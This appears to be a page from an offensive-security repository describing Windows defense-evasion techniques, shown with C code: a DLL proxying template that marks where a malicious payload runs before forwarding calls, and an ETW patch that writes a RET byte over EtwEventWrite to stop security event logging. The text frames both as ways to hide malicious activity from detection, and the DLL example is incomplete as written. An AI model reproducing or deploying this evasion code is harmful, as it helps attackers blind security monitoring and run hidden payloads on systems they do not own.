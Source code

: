💡 This technique involves replacing a legitimate system DLL with a malicious one that forwards API calls while executing a hidden payload.

Implementation (Proxying system DLLs)
```
#include <windows.h>
#include <stdio.h>

typedef int (WINAPI *MessageBoxA_t)(HWND, LPCSTR, LPCSTR, UINT);

// Function pointer to hold original MessageBoxA function
MessageBoxA_t OriginalMessageBoxA;

int WINAPI HookedMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType) {
    // Execute malicious payload here
    MessageBoxA(NULL, "Malicious Code Executed!", "DLL Proxying", MB_OK);

    // Forward call to original MessageBoxA
    return OriginalMessageBoxA(hWnd, lpText, lpCaption, uType);
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        // Load original user32.dll
        HMODULE hUser32 = LoadLibraryA("C:\\Windows\\System32\\user32.dll");
        if (hUser32) {
            // Get the original function address
            OriginalMessageBoxA = (MessageBoxA_t)GetProcAddress(hUser32, "MessageBoxA");
        }
    }
    return TRUE;
}
```
✅ Replaces legitimate DLLs with a malicious version
✅ Forwards API calls to avoid detection
✅ Executes hidden payload before calling original function


---

2️⃣ ETW Patching (Disabling Windows Event Tracing to Hide Execution)

💡 This technique disables Windows Event Tracing (ETW) to prevent security logs from capturing malicious activity.

Implementation (Disabling ETW)
```C
#include <windows.h>

void DisableETW() {
    // Locate EtwEventWrite function in ntdll.dll
    void* pEtwEventWrite = GetProcAddress(GetModuleHandleA("ntdll.dll"), "EtwEventWrite");

    // Overwrite first byte with 0xC3 (RET instruction)
    DWORD oldProtect;
    VirtualProtect(pEtwEventWrite, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
    *(BYTE*)pEtwEventWrite = 0xC3;
    VirtualProtect(pEtwEventWrite, 1, oldProtect, &oldProtect);
}

int main() {
    DisableETW();
    MessageBoxA(NULL, "ETW Disabled!", "Evasion", MB_OK);
    return 0;
}
```
✅ Prevents security logs from detecting malicious activity